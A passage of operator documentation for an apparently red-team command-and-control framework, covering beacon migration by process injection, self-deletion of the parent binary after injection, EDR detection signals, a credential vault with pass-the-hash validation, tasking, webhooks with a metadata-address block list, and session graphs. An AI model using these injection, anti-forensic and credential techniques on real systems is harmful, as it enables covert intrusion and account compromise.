threads accepted the APC.

#### Timeout

Injection is a long-running operation — mapping a ~13 MB payload into
a foreign address space and waiting for the loader to spin up the Go
runtime can take several seconds. The verb uses a dedicated
120-second context, not the task default.

### Target resolution

A bare integer is treated as a PID and must be positive and running.

A non-numeric argument is resolved to a PID by matching against the
**executable basename** of every running process. The first match
wins; the caller gets a clear `migrate: no running process named
"<name>"` error when nothing matches. Operators who need a specific
PID should pass one.

**Windows.** `CreateToolhelp32Snapshot` walks the process table; the
match is **case-insensitive** and appends `.exe` if the operator did
not, so `explorer` and `explorer.exe` both resolve to the same
process.

**Linux.** `/proc` is walked; the match is on the basename of the
`/proc/<pid>/exe` symlink and is **case-sensitive**. A `(deleted)`
suffix — present when the process's binary was replaced in place — is
stripped before the comparison.

### Post-injection lifecycle

The parent stays alive for a short window after a successful
injection so the injected thread has time to complete its first
check-in. The server sees the injected beacon's check-in with the
same fingerprint and reattaches the session — the beacon ID does not
change. After the five-second window, the parent runs `SelfDelete`
and exits.

### Permissions

Injection requires `PROCESS_ALL_ACCESS` on Windows or `PTRACE_ATTACH`
on Linux against the target.

- Same-user processes always work.
- System processes work when the beacon is running elevated.
- **Protected processes do not.** Windows PPL processes and kernel
  threads, Linux `kthreadd` and anything under a Yama
  `ptrace_scope` that forbids the attach, are refused by the kernel
  and surface as an `OpenProcess: Access is denied` or a
  `PTRACE_ATTACH: EPERM` in the result. The error names the target
  PID and hints at the likely cause.

### Limitations, stated honestly

- **Injection leaves an artifact.** A defender looking at the
  process tree sees a foreign process (`explorer.exe`, `svchost.exe`)
  hosting a Go runtime that it did not start with. The process image
  is not signed by the vendor, its memory is anonymous and RWX during
  the injection window, and its thread start address is not backed by
  a file on disk. On a host with EDR, `CreateRemoteThread` from a
  non-allowlisted parent is a high-signal event, and `PTRACE_ATTACH`
  from a non-debugger is a syscall auditd is commonly configured to
  log. The `migrate --self` form does not have these artifacts —
  both parent and child are the same signed binary.

- **`--method apc` changes the signal, not the outcome.** The APC
  path removes the `CreateRemoteThread` event, but `NtQueueApcThread`
  is itself instrumented by every major EDR vendor, and an unbacked
  shellcode frame on a thread whose start address is not backed by a
  file on disk is exactly the shape stack-walking telemetry looks
  for. The technique raises the cost of detection; it does not
  close the gap. An operator who wants to inject without any of
  these artifacts is asking for a capability that no userland
  technique provides.

- **The parent deletes itself after injection.** Both platforms
  unlink the parent's on-disk binary after the five-second window
  (Linux `os.Remove("/proc/self/exe")`, Windows
  `FILE_FLAG_DELETE_ON_CLOSE`). A forensic capture that runs after
  the migration completes sees only the injected child.

- **The shellcode is the agent's own, produced by Donut at build
  time.** There is no support for injecting a foreign payload. The
  verb moves the beacon; it is not a general-purpose injector.

- **`--self` requires the binary on disk.** A beacon that was started
  from a memfd by a stager, or whose file has been unlinked, has no
  on-disk source for the child to `exec`. The verb refuses with a
  clear message; use the stager's own session handoff instead.
  Injection (`<pid>` / `<name>`) does not have this limitation — it
  writes shellcode, not a file path.

- **No macOS or BSD support.** Both the detached-spawn and the
  injection paths are implemented for Linux and Windows. Building a
  beacon for another platform still works; `migrate` is filtered out
  of the operator's catalogue there.

- **Linux injection is x86-64 only.** The `userRegs` layout in
  `inject_linux.go` mirrors `sys/user.h` on x86-64. An arm64 Linux
  build has no injection path and refuses the verb at the same build
  gate as a build without the shellcode embedded.

- **A binary size cost.** The embedded shellcode is a full loader-
  wrapped copy of the pass-1 binary, base64-encoded. A typical Go
  beacon grows by roughly 13 MB on Windows (Donut-wrapped PE) or
  by the base64-inflated size of the pass-1 ELF plus a ~1 KB stub
  on Linux. Operators who do not need the inject path and are
  size-constrained should leave `inject: false`. Every other
  capability is unaffected.

---

## Scheduled Tasks

The server can queue a task on a repeating interval without an
operator typing the command.

### Usage

```
● beacon#1001 > schedule add 5m ps
schedule a1b2c3d4 added: every 300s ps

● beacon#1001 > schedule list
Schedules for beacon #1001
  a1b2c3d4  every 300s  next in 300s  runs=0  ps

● beacon#1001 > schedule remove a1b2c3d4
removed schedule a1b2c3d4
```

### Interval syntax

| Spec | Meaning |
|------|---------|
| `30s` | 30 seconds |
| `5m` | 5 minutes |
| `2h` | 2 hours |
| `1d` | 1 day |

Missed fires are skipped. A server down for six hours will resume each
schedule at its next interval.

### Output retention

A schedule stores nothing by default — the same behaviour as before the
retention feature. Passing `--keep N` on `schedule add` opts the
schedule into a bounded ring buffer of the last `N` run outputs:

```
● beacon#1001 > schedule add 5m ps --keep 100
✓ schedule a1b2c3d4 added: every 300s ps keep=100

● beacon#1001 > schedule list
Schedules for beacon #1001
  a1b2c3d4  every 300s  next in 300s  runs=42  ps  keep=100 stored=42

● beacon#1001 > schedule output a1b2c3d4
── RUN #42  ·  2026-10-09 15:32:11 ────────────────────────────
  PID   USER     TIME  COMMAND
  ...
```

`schedule output <id> <run>` retrieves a single run by number. The ring
is persisted to disk, so a handler restart does not lose the retained
outputs.

**Server-side limits.** The cap is bounded at 10000 runs per schedule,
enforced at the API boundary. Each run output is capped at the task's
own output size, which is bounded by the task timeout and the beacon's
output buffer. A schedule whose `keep` is `0` stores nothing — output
is discarded exactly as before.

**Worker thread cost.** Each fire with `keep > 0` spawns a short-lived
daemon thread that blocks on the task's result and appends it to the
ring. The thread lives at most `timeout + 30 s` beyond the fire. On a
long engagement with many `--keep` schedules, the number of live
worker threads is bounded by (schedules × fires-per-timeout-window),
which is small in practice.

---

## Task Queue Introspection

The `tasks` verb shows every command that has been queued for the
attached beacon and has not yet returned a result. Each row carries the
verb, its arguments, the operator who queued it, and how long ago it
was queued.

```
● beacon#1001 > tasks
── PENDING  ·  3 task(s) ──────────────────────────────────────
  3f8a1c2d  ps                                    queued 12s ago by alice, next ~48s
  4a1b2c3d  exec whoami /all                      queued  2s ago by alice, next ~58s
  5c2d3e4f  ls C:\Users\                          queued  1s ago by bob,   next ~59s
```

**The `next ~Ns` estimate** is derived from the beacon's sleep interval
and the queue time. It is an estimate, not a guarantee — the value is
computed from the operator's last-known view of the beacon's sleep
setting and does not account for jitter.

**Task states.** A task sitting on the queue is `queued`. A task the
beacon has already popped and is running is `in-flight`. The in-flight
row shows the verb and queue time it had the moment it was queued, so
the operator can still see how long it has been running.

### Cancelling a task

Only the operator who queued a task can cancel it before the beacon
picks it up:

```
● beacon#1001 > cancel 3f8a1c2d
✓ cancelled 3f8a1c2d
```

The task is removed from both the queue and the pending map. If the
beacon has already popped the task and is running it on the target, the
cancel returns an error and the running task completes normally — the
output is discarded, but the process is not terminated.

**Ownership rule.** The cancel path enforces one rule: an
operator-queued task is cancellable **only** by the operator whose name
matches `queued_by`. A system-queued task — the ones the scheduler
fires, or the server auto-stages — is cancellable by an admin, because
no human owns it.

```
● beacon#1001 > cancel 4a1b2c3d
only the operator who queued this task can cancel it
  the pending queue only permits cancellation by the operator
  who queued the task. To remove it, ask that operator, or
  leave it to complete normally.
```

Every refused cancellation is audited with `outcome=denied` under
`beacon.cancel`, so a removal attempt against another operator's task
leaves a trail in the chain.

**Cancelling an in-flight task has no effect on the running process.**
The target-side execution continues to completion. What the cancel
actually does at that point is remove the waiter and discard the
output when the result arrives. This is a deliberate constraint — the
pull-based C2 model has no live channel to interrupt a running task on
the target.

---

## Bulk Operations

`killall` queues self-destruct on more than one beacon in a single
request. It exists so the operator does not have to type `kill` once
per host at the end of an engagement, and so the audit chain records
the group operation as one entry rather than N scattered ones.

### Usage

```
adc > killall --all
this will queue self-destruct on 4 beacon(s):
  #1001 alice@WIN-DEV    (windows/amd64)
  #1002 bob@WIN-SRV2     (windows/amd64)
  #1003 root@srv-linux   (linux/amd64)
  #1004 svc@dc01         (windows/amd64)

the kill task is a pull — each beacon runs it on its next check-in.
A beacon that never checks in again is not killed.

type 'yes' or the count to confirm: 4
✓ queued kill on 4/4 beacon(s)
```

### Scopes

| Scope | Matches |
|-------|---------|
| `--all` | Every session in the registry, alive or stale |
| `--stale` | Sessions whose last check-in is older than their TTL |
| `--tag <tag>` | Sessions carrying the given tag on their alias record |
| `--ids a,b,c` | An explicit comma-separated list of beacon IDs |

`--tag` reads the same tag store that `tag` and `untag` write to.
`--stale` uses the beacon's `alive` flag, which is derived from the
same TTL the reaper thread uses — a beacon older than
`100 × BEACON_TTL_FACTOR × sleep` seconds. `--ids` silently drops
IDs that are not in the registry rather than failing the whole
request; the summary counts report what was actually killed.

### Confirmation

The client prints the match set and asks the operator to type `yes`
or the count itself. Requiring a word rather than a single keypress
means the command cannot be triggered by a stray Enter. There is no
`--force` flag on the client side — if an operator wants to script
this, they call the API directly:

```
POST /api/v1/beacon/kill
  {"scope": "all"}

POST /api/v1/beacon/kill
  {"scope": "tag", "tag": "in-scope"}

POST /api/v1/beacon/kill
  {"scope": "ids", "ids": [1001, 1002]}
```

### What the server does

For each matching session, the server enqueues one `kill` task with
`queued_by` set to the caller's name. A per-target `beacon.use` audit
entry is written so the chain names every beacon. A single
`beacon.kill` summary entry records the scope, the match count, the
kill count, and any targets that failed to enqueue — queue-full is
the only failure mode the server distinguishes.

The response body carries `matched`, `killed`, `failed`, and a
`results` array pairing each killed beacon's ID with its task ID, so
a scripted caller can track the tasking.

### Empty match sets

An empty match set is refused with 400, not returned as success with
zero kills. `killall --all` against a server with no live beacons
does nothing; it does not silently succeed. The distinction matters
because the operator running `killall` at the end of an engagement
needs to know the difference between "every beacon received the kill
task" and "the request was a no-op because the registry was empty."

### What it does not do

`killall` does not wait for the kill task to complete on any beacon.
Every beacon learns about the kill on its own next check-in; a beacon
on a 60-second sleep takes up to 60 seconds to receive the task, and
a beacon that never checks in again is never killed. If the operator
needs per-beacon confirmation, `wait <task-id>` against each task ID
in the `results` array does the job — but the confirmation loop is
deliberately manual, because the point of the command is that it
returns in one round-trip.

---

## Beacon Aliases and Tags

Every beacon can carry a friendly name and a set of tags. Both are
stored server-side, keyed on the beacon ID, so a beacon that goes stale
and later reconnects keeps its alias and tags.

```
● beacon#1001 > alias dc01
✓ #1001 → dc01

● beacon#1001 > tag in-scope
✓ #1001 tags: in-scope

● beacon#1001 > tag domain-controller
✓ #1001 tags: domain-controller, in-scope

● beacon#1001 > alias
  alias dc01
  tags  domain-controller, in-scope

● beacon#1001 > alias ""
✓ #1001 alias cleared

● beacon#1001 > untag in-scope
✓ #1001 tags: domain-controller
```

The alias appears in the `beacons` table and in the attached-console
prompt:

```
● beacon#1001(dc01) > ls C:\Users\alice
```

**Resolution.** `use <alias>` resolves the alias to the beacon ID:

```
adc > use dc01
attached to #1001 — alive, sleep=60s, results on next poll
```

A numeric argument is treated as an ID first. A non-numeric argument is
looked up as an alias across the beacons list. If the lookup fails, the
client prints `no such beacon or alias: <arg>` rather than guessing.

**Naming rules.** An alias must match
`^[A-Za-z][A-Za-z0-9._-]{0,31}$` — it starts with a letter, and may
contain letters, digits, dots, underscores, and hyphens. Aliases are
unique across live sessions: setting an alias that another live beacon
already carries is refused with a specific error naming the conflicting
beacon.

Tags use the same character class. Multiple tags are sorted
alphabetically for stable rendering. A tag that is already present on a
beacon is a no-op, not an error.

**Stale beacons.** A beacon that goes silent and later reconnects
reclaims its alias because the store is keyed on the beacon ID, not the
fingerprint. An alias whose beacon is forgotten via `beacon-forget`
survives until the operator explicitly clears it or assigns it to a
different live beacon.

---

## Beacon Viewers

On a multi-operator engagement, two operators can attach to the same
beacon and issue commands at the same time. The commands are queued in
order, so nothing is lost, but the second operator's result arrives
after the first operator has already moved on — which is confusing
when it happens and impossible to debug after the fact. The viewer
roster exists so an operator can see who else is on a beacon before
they start typing.

### The column

Every `beacons` listing gains a `VIEWERS` column:

```
● #1001 alice@WIN-DEV   windows/amd64   60s   12s   3  bob          192.168.1.10
● #1002 bob@WIN-SRV2    windows/amd64   60s    4s   1  —            192.168.1.11
● #1003 root@srv-linux  linux/amd64      0s    2s  18  alice, carol 10.0.0.5
```

An em-dash means no other operator is currently attached. A single
viewer prints in cyan. Two or more viewers print in yellow — the
color change is deliberate, because the situation where two
operators can step on each other's commands is exactly the situation
where the column should draw the eye.

The caller is never shown in their own viewer list. Self is implicit
in the fact that the operator typed `beacons`; the column exists to
show *who else* is here.

### How it works

Every `beacons` poll carries the caller's currently-attached beacon
ID in the request body:

```
POST /api/v1/beacons
  {"current": 1001}
```

The server records `(1001, cn)` as a viewer entry with a monotonic
timestamp. On every response, the server attaches a `viewers` list to
each row — every operator whose entry for that beacon is fresher than
`BEACON_VIEWER_TTL` (30 seconds), with the caller filtered out.

Three cases are handled explicitly:

- **Attaching to a new beacon.** `use 1002` sends `{"current": 1002}`,
  and the server implicitly clears the operator's entry on any
  previous beacon before recording the new one. The old beacon's
  roster is refreshed on the next `beacons` poll from any operator.
- **Detaching.** `detach` sends `{"current": null}`, and the server
  clears the operator from every beacon's roster. The clear is
  best-effort — a failed request leaves the entry to expire on its
  own TTL, which is what a crashed client produces anyway.
- **Crashing.** A client that closes without detaching leaves a
  viewer entry behind. It expires 30 seconds after the last poll. No
  operator action is required to clean it up.

### What it is not

Presence is a heartbeat, not a lock. Two operators can attach to the
same beacon; the framework does not stop them and does not serialize
their commands beyond the task queue's own ordering. What the roster
gives the second operator is *information* — they can see that the
beacon is already being worked and choose to coordinate on chat
before they start.

Presence is deliberately **not audited**. An entry per poll would
drown the chain — the client polls every few seconds, and a team of
five on a live engagement would generate hundreds of `beacon.presence`
entries per hour. The audit chain is for state-changing actions;
presence is derived state that is re-computed from the poll stream
every 30 seconds.

The roster is per-process. A server restart clears every viewer entry
and the roster refills as clients poll. The refresh is invisible —
the first `beacons` call after a restart shows the same column it
showed before, because the poll that produces the response is the
same poll that records the caller's own heartbeat.

---

## Credential Vault

The vault is a shared, engagement-wide store for credentials collected
during the operation. Every operator with `creds.use` sees the same
records. Validation results are stored on each record, so the vault
is both the collection and the operator's view of what has actually
been tested.

```
adc > creds list
── CREDENTIALS  ·  3 ──────────────────────────────────────────
  #a3b1c9d4  CONTOSO\alice     plaintext  valid        src=#1001  2026-10-08 14:32
  #b4c2d0e5  CONTOSO\svc_sql   ntlm       invalid      src=#1001  2026-10-08 14:41
  #c5d3e1f6  CORP\root         krbtgt     unvalidated  src=#1002  2026-10-08 15:02
```

**Adding a credential.** Either with flags:

```
adc > creds add --user alice --domain CONTOSO --kind plaintext --value 'Summer2024!'
✓ stored as #a3b1c9d4
```

or interactively. If `--user` or `--value` is missing, the client
prompts. The value prompt uses `getpass`, so the credential does not
appear in shell history or terminal scrollback — but **passing
`--value` on the command line does**, which is a trade the operator
makes knowingly.

**Reading a credential.**

```
adc > creds get a3b1c9d4
  id             a3b1c9d4
  user           alice
  domain         CONTOSO
  kind           plaintext
  value          Summer2024!
  source_beacon  1001
  source_path    C:\Users\alice\Documents\passwords.kdbx
  found_by       alice
  found_at       2026-10-08 14:32:11
  validation     valid  by alice, #1001, 2026-10-08 14:35:22
                 logon succeeded
  used_by        (2 uses)
    #1001 steal_token 14:35
    #1003 exec        14:48
```

### Kinds

The vault accepts thirteen kinds. Each carries an implicit shape
contract that the operator honours; the store does not validate the
value's shape, because the shape that matters depends on the consumer,
and a store that guessed wrong would reject legitimate records.

| Kind | Shape | Validatable on |
|------|-------|----------------|
| `plaintext` | password | Windows (`LogonUserW`), Linux (LDAP simple bind) |
| `ntlm` | NT hash, hex (optionally `LM:NT` pair) | Windows (`LsaLogonUser`, MSV1_0) |
| `lm` | LM hash, hex (optionally `LM:NT` pair) | Windows (`LsaLogonUser`, MSV1_0) |
| `sha1` | SHA-1 of the password | not validatable (informational) |
| `aes256` | Kerberos AES-256 key, hex | not validatable yet |
| `aes128` | Kerberos AES-128 key, hex | not validatable yet |
| `krbtgt` | KRBTGT key, hex | not validatable yet |
| `ticket` | Kerberos ticket, base64 (ccache or kirbi) | Windows + Linux (structural parse) |
| `cert` | certificate + private key, PEM, base64 | Windows + Linux (TLS client-auth) |
| `token` | Windows access token, base64 handle | Windows (`GetTokenInformation`) |
| `bearer` | HTTP bearer token or JWT | Windows + Linux (HTTP HEAD) |
| `ssh_key` | SSH private key, PEM | Windows (`ssh.exe`), Linux (`ssh -i`) |
| `other` | anything else | not validatable |

**Searching.** `creds search <term>` runs a case-insensitive substring
match across the user, domain, source path, and notes. The list and
get commands are the primary interface; search is a convenience for a
large vault.

**Deletion.** `creds delete <id>` removes the record. Any operator with
`creds.use` can delete any credential — this is not owner-restricted
the way the loot store is, because the vault is meant to be a shared
resource that any operator curates.

### Validation

`creds validate <id>` runs a kind-specific check against the credential
and records the outcome on the record. The check runs **on a beacon**,
not on the team server: the team server is almost never on the network
where the credential is useful, and a bind attempt from the wrong
network either fails silently or — worse — succeeds against a system
the engagement was not authorised to touch. The check runs on the
target's own segment, from the beacon that already has a foothold
there.

```
adc > creds validate a3b1c9d4
[*] validating #a3b1c9d4 (plaintext) from beacon #1001 on windows
✓ valid  from #1001
  logon succeeded
```

**Beacon selection**, in order:

1. `--from <beacon-id>`, if given.
2. The record's `source_beacon`, if it is still alive.
3. The currently attached beacon, if any.
4. Refuse with a specific error naming the missing information.

The operator overrides with `--from` when the source beacon has gone
stale, and `--target <host>` when the check should run against a
system other than the credential's domain controller — a member
server, a filesystem, an application.

**Status values.** The beacon returns one of:

| Status | Meaning |
|--------|---------|
| `valid` | The check succeeded |
| `invalid` | The check was rejected (bad password, disabled account, no such user) |
| `locked` | The account is locked out |
| `expired` | The password, ticket, or account has expired |
| `error` | The check could not complete (network, permissions, DC unreachable) |
| `unsupported` | The kind has no check on the target's platform |
| `unvalidated` | Never checked (the default) |

The distinction between `invalid` and `error` matters: `invalid` tells
the operator the credential is wrong; `error` tells them the check
could not be trusted. A locked-out account comes back as `locked`
rather than `invalid`, so the operator does not waste a
password-spray cycle discovering the lockout the hard way.

**Per-kind checks:**

| Kind | Check |
|------|-------|
| `plaintext` | Windows: `LogonUserW(LOGON32_LOGON_NETWORK)`. The Win32 error code is mapped to a specific status — locked out, disabled, expired, logon-hour restriction, workstation restriction — rather than collapsed into a single rejection. Linux: LDAP simple bind, one bind attempt per call, with the DC chosen from `--target` or the domain's SRV record. |
| `ntlm`, `lm` | Pass-the-hash via `LsaLogonUser` with the MSV1_0 package. The hash travels in the `MSV1_0_LM20_LOGON` OWF structure; no plaintext is involved. Windows-only. |
| `ticket` | Structural parse of the ticket blob — ccache magic `0x05 0x04` or kirbi ASN.1 tag `0x76`. A ccache ticket carries its start and end times in cleartext, so expiry is verifiable; a kirbi ticket does not, so the result reports the realm, sname, and the fact that only the envelope was checked. No KDC contact. |
| `cert` | TLS client-auth handshake against `--target`. Success proves the certificate chains to a CA the server trusts and the private key matches the cert; it does not prove the server will authorise the resulting session. |
| `token` | Windows: `GetTokenInformation` against the supplied handle, rendered as an S-R-I-S-S-… string with the group count. Liveness check, not an authentication check — a token from a live process succeeds; a token from an exited process fails. |
| `bearer` | HTTP HEAD with the token as a `Authorization: Bearer` header. A JWT carries its issuer in the `iss` claim, so `--target` can be derived automatically. `200`/`204`/`302` = valid; `401`/`403` = invalid; anything else is inconclusive. |
| `ssh_key` | Windows: shells out to the system `ssh.exe` (Windows 10 1809+) with the key written to a `FILE_FLAG_DELETE_ON_CLOSE` temp file. Linux: shells out to `ssh -i` with the key in `/dev/shm` or `/tmp`, scrubbed on exit. |

**Kinds that are not validatable.** `aes256`, `aes128`, and `krbtgt`
need a hand-built Kerberos AS-REQ with the raw key. The Go stdlib has
no Kerberos, and the ASN.1 for the pre-auth is a project of its own.
`creds validate` refuses these locally with a message naming the gap;
the records can still be stored and retrieved, and a check can be
added later without a schema change.

**Kinds that are platform-specific.** `ntlm` and `lm` have no Linux
path — Linux has no notion of NT hashes for authentication. `token` is
a Windows concept. A `creds validate` on one of those against a Linux
beacon returns `unsupported` with a message naming the platform gap.

### Audit and the value

**The credential value is never written to the audit chain.** The
`creds.add`, `creds.get`, and `creds.validate` entries record the
record ID, user, domain, kind, source beacon, and source path — but
not the value. A validation entry carries the outcome status, the
beacon that ran the check, and a short human-readable detail; the
value never appears.

**The value is not encrypted at rest.** `logs/creds.json` is `0600`, but
anything that reads the team server's filesystem reads every credential.
This is the same honest posture as the loot store's "not encrypted at
rest" note. If the threat model includes disk seizure or a malicious
host administrator, the vault should be on an encrypted volume.

### Lockout safety

`creds validate` runs **one** failed-logon attempt per call against a
`plaintext`, `ntlm`, or `lm` credential. The agent does not retry, and
the client does not fall back to a second bind-name form or a second
domain controller on a credential rejection — only on a transport
error. On a domain with a five-attempt lockout policy, it takes five
operator-invoked checks against the same account to lock it. The
operator decides how many to run.

The LDAP path on Linux resolves the DC from `--target` or from a
single SRV lookup. If more than one DC is returned, a transport
failure against the first DC moves to the next, but a rejected bind
stops immediately — the rejection is the answer.

### Size and rate

The vault has no explicit cap — the file is loaded and re-saved on
every mutation, so a vault past a few thousand entries becomes slow to
write. For any realistic engagement, this is not a limit worth
optimising. The general API rate bucket applies to the vault's
endpoints, so a misbehaving client cannot flood the file with
mutations.

### Capability

`creds.use` governs the whole vault: `list`, `get`, `add`, `search`,
`validate`, and `delete`. It is granted to `operator` and `admin`. It
is not granted to `viewer` or `guardian`; a request from a credential
without the capability is refused with a 403 and audited.

---

## Engagement and Per-Beacon Notes

Two scopes for free-form operator notes, both shared across the team.

### Engagement notes

Engagement notes are a single global list, stored in `logs/notes.json`.

```
adc > notes "dc01 is the primary objective"
✓ note stored

adc > notes "avoid finance subnet per scope doc"
✓ note stored

adc > notes
── NOTES  ·  2 ────────────────────────────────────────────────
  2026-10-08 14:32  alice  dc01 is the primary objective
  2026-10-08 14:35  bob    avoid finance subnet per scope doc
```

**Search.**

```
adc > notes search objective
  2026-10-08 14:32  alice  dc01 is the primary objective
```

The search is a substring match across the note text and any tags.

**Tags.** `notes add` accepts an optional tag list. `notes` with no
arguments lists every note; tags render beneath the text when present.

### Per-beacon notes

Per-beacon notes are stored under `logs/bnotes/<bid>.json` — one file
per beacon. This means a beacon with five hundred notes does not slow
down reads of another beacon's notes, and forgetting a beacon does not
require rewriting the whole notes store.

```
● beacon#1001 > note set "RDP open on 3389, alice has local admin"
✓ note stored

● beacon#1001 > note set "SQL service account leaks TGTs"
✓ note stored

● beacon#1001 > note
── NOTES  ·  #1001 ───────────────────────────────────────────
  2026-10-08 14:32  alice  RDP open on 3389, alice has local admin
  2026-10-08 14:41  alice  SQL service account leaks TGTs
```

`note clear` empties the file.

**Keyed on the beacon ID, not the fingerprint.** A beacon that goes
stale, is forgotten, and reconnects reclaims its beacon ID — and its
notes with it. This is the same trade the alias store makes.

### Caps and sanitization

Both scopes cap individual notes at 4096 bytes, matching the chat
message cap. Note bodies are not content-filtered but go through the
same sanitizer that strips control characters and Unicode formatting
controls from chat, so a note cannot corrupt the terminal of the
operator who reads it next.

### What notes are not

Notes are **not** a discussion forum. They are a scratchpad — the
answers to "what did I already check on this host" and "what is the
scope of this engagement." Use chat for discussion, notes for the
things you want to survive a scrollback.

---

## Webhook Notifications

Webhooks push events from the team server to a Slack, Discord, or
Telegram endpoint. They are fire-and-forget: a slow or dead endpoint
never stalls an operator request.

```
adc > webhooks list
── WEBHOOKS  ·  2 ─────────────────────────────────────────────
  #a1b2  slack-ops     slack     new-beacon,kill-deadline
  #c3d4  tg-alerts     telegram  new-beacon
```

**Adding a webhook.**

Slack:

```
adc > webhooks add --kind slack \
        --url https://hooks.slack.com/services/T.../B.../X... \
        --events new-beacon,kill-deadline
✓ added #a1b2 (slack)
```

Discord:

```
adc > webhooks add --kind discord \
        --url https://discord.com/api/webhooks/.../... \
        --events new-beacon
✓ added #e5f6 (discord)
```

Telegram:

```
adc > webhooks add --kind telegram \
        --url https://api.telegram.org/bot<TOKEN>/sendMessage \
        --chat -1001234567890 \
        --events new-beacon
✓ added #g7h8 (telegram)
```

The Telegram webhook URL is the Bot API `sendMessage` endpoint. The
`--chat` argument carries the target chat ID.

**Events.** A webhook is registered against a comma-separated list of
event names. Valid events:

| Event | Fires when | Severity |
|-------|-----------|----------|
| `new-beacon` | A beacon checks in for the first time | info |
| `kill-deadline` | A beacon crosses into the 24-hour self-destruct window | warn |
| `schedule-complete` | A scheduled task returns a result | info |
| `beacon-identity-mismatch` | A check-in presents a public key that does not match the one pinned at first contact | crit |
| `beacon-signature-failure` | A result fails ECDSA verification and is rejected | crit |

A webhook with no matching events is inert.

`beacon-identity-mismatch` and `beacon-signature-failure` are the two
alert-level events. The first is fired from the engine's check-in
path when a session's pinned public key and the presented public key
diverge — either a rebuilt agent (benign) or an impersonation attempt
(not). The second is fired from the result store when
`_verify_result_signature` refuses a result. Both carry a
`rejected_total`-style counter so an operator can see escalation
across repeated fires, and both are candidates for a per-session
cooldown if the endpoint starts rate-limiting you.

**Severity.** A webhook may set a minimum severity floor. Events below
the floor are not dispatched.

**Testing.** `webhooks test <id>` fires a synthetic `new-beacon` event
at the endpoint so the operator can confirm the URL is reachable and the
payload shape is accepted:

```
adc > webhooks test a1b2
✓ test posted
```

**Removing.** `webhooks remove <id>` deletes the registration. The
registration is persisted to `logs/webhooks.json`; removal is immediate
and audited.

### Telegram setup

Two steps for the operator:

1. Talk to `@BotFather` in Telegram, create a bot, and copy the token.
2. Get the chat ID. DM the bot `/start` and read
   `https://api.telegram.org/bot<TOKEN>/getUpdates` for the numeric
   `chat.id`, or add the bot to a group and read the negative
   `chat.id` from the same endpoint.

Then register:

```
adc > webhooks add --kind telegram \
        --url https://api.telegram.org/bot<TOKEN>/sendMessage \
        --chat <chat_id> \
        --events new-beacon
```

### Delivery model

The dispatcher runs on a daemon worker thread with a bounded queue of
32 in-flight notifications. When the queue is full, new events are
dropped rather than queued indefinitely — a webhook that cannot keep up
with the engagement does not become a memory leak on the team server.
Drops are counted per fire and printed to the handler's stdout as
`[WEBHOOK] queue full, dropped N dispatch(es) for <event>` so a
backed-up endpoint is visible without a metrics backend.

Delivery is best-effort. A `urllib` timeout, an HTTP error, or a broken
TLS handshake does not raise into the caller. HTTP failures are logged
to the handler's stdout — `[WEBHOOK] <id> (<kind>) HTTP <status>` for
a response code, `[WEBHOOK] <id> (<kind>) failed: <reason>` for a
transport error — so a dead endpoint is discoverable without grepping
the audit chain. Nothing is retried; nothing is written to the audit
chain. The webhook is a convenience for the operator's phone, not a
component of the C2's durable record — the audit chain plays that role.

### Destination safety

Every webhook URL is checked twice: once at registration time and
again immediately before each dispatch. The check resolves the
hostname, inspects every address the name returns, and refuses if any
of them is:

- A cloud metadata address (`169.254.169.254`, `169.254.170.2`,
  `100.100.100.200`, `fd00:ec2::254`)
- Loopback, link-local, private, multicast, reserved, or unspecified
- An IPv4-mapped IPv6 address whose IPv4 half is on the list

A hostname that resolves to both a public and a private address is
treated as private — the attacker only needs the private one to land.
A hook that was valid at registration time and later points somewhere
private (DNS rebinding, a compromised endpoint) is refused at dispatch
and the refusal is logged. The check at dispatch is the one that
matters; the check at registration exists so an operator gets a clear
error before the first fire.

If your deployment needs a strict allowlist instead of the
block-everything-private default, uncomment the
`_ALLOWED_WEBHOOK_HOSTS` set at the top of `team/webhooks.py` and trim
it to the hosts you actually intend to use.

### Per-operator ownership

Each hook records the operator who added it in the `added_by` field.
The ownership model is two-tier:

| Capability | Role | Effect |
|------------|------|--------|
| `webhooks.manage` | `operator`, `admin`, `local` | Add hooks. List, test, and remove **only the hooks you added** |
| `webhooks.manage.admin` | `admin`, `local` | List, test, and remove **any** hook, including hooks added by other operators |

`webhooks list` returns only the caller's hooks when the caller does
not hold `webhooks.manage.admin`. `webhooks remove` and `webhooks test`
refuse a hook owned by another operator with a 403 that names the
reason, and the refusal is audited under `webhooks.remove` /
`webhooks.test` with `outcome=denied`. An admin removing a hook they
did not add sees the owner's name in the audit `detail` field
(`owner=<name>`), so an override is legible in the chain.

Neither capability is granted to `viewer` or `guardian`. A viewer's
client short-circuits before the request reaches the server; the
server enforces the same rule at the capability gate, so a
hand-crafted request from a viewer's cert is refused with a 403 and
audited.

### Testing one hook

`webhooks test <id>` dispatches **only the named hook**, using the
first event the hook is subscribed to. The sample payload is a
realistic shape for that event — a beacon identity for `new-beacon`,
a task ID for `schedule-complete`, and so on — so the message the
operator's phone receives looks like the message a real event would
produce. A hook subscribed to `beacon-identity-mismatch` gets a
synthetic mismatch, not a beacon check-in.

The test endpoint is ownership-checked the same way remove is: an
operator can test their own hooks, an admin can test any hook. Testing
a hook owned by another operator is refused with the same 403.

---

## Session Graph

`graph` renders a tree of every live session grouped by domain, then by
user, then by beacon. Four render modes are available:

### `graph tree` (default)

```
SESSION GRAPH
  CONTOSO
    alice
      ● #1001 WIN-DEV [windows/amd64] 192.168.1.0/24 age=18s
    bob
      ● #1002 WIN-SRV2 [windows/amd64] 192.168.1.0/24 age=4s
  (no domain)
    root
      ● #1003 srv-linux [linux/amd64] 10.0.0.0/24 age=42s
  shared attributes:
    #1001 ↔ #1002: domain=CONTOSO, subnet=192.168.1.0/24
```

### `graph flat`

One line per beacon. Grep-friendly.

```
● 1001  alice@WIN-DEV    windows/amd64  alice@CONTOSO  192.168.1.0/24  18s
● 1002  bob@WIN-SRV2     windows/amd64  bob@CONTOSO    192.168.1.0/24   4s
○ 1003  root@srv-linux   linux/amd64    root@-         10.0.0.0/24     42m
```

### `graph summary`

Counts only. Fast when the engagement has dozens of beacons.

```
SESSION GRAPH (summary)

  3 beacons (2 alive, 1 stale)

  by domain
    CONTOSO    2 beacon(s)  #1001, #1002
  by user
    alice      1 beacon(s)  #1001
    bob        1 beacon(s)  #1002
    root       1 beacon(s)  #1003
  by subnet
    192.168.1.0/24  2 beacon(s)  #1001, #1002
    10.0.0.0/24     1 beacon(s)  #1003
```

### `graph path <a> <b>`

The path is the shortest route through *shared-attribute* edges —
two beacons are adjacent when they share a user, a domain, or a
subnet. Two beacons with nothing in common have no path between
them, and the command prints `no shared-attribute path between #a
and #b`.

```
PATH #1001 → #1003
  #1001
